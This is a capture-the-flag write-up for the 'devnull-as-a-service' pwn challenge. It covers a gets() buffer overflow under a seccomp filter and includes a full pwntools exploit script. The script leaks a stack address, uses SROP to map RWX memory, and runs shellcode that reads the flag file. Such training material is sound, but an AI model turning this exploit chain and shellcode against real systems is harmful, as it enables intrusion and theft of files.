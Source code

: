 ```yaml
---
title: "[WRITE UP] - devnull-as-a-service"
published: 2025-01-30
description: ""
image: "./image.png"
tags:
  - PWN
category: "CTF Write ups"
draft: false
---
```


# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

## Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

def stage1():

    pl = flat(
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    )

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

def stage2():

    pl = flat(
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      )

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat(
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    )
    pl += bytes(frame)

    sl(pl)

def stage4():

    pl = flat(
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    )

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

def stage5():

    pl = flat(

        b'A'*16,
        rwx
    )

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795
    pop_rax = 0x42193c
    syscall = 0x40bcd6
    rwx = 0x12345
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
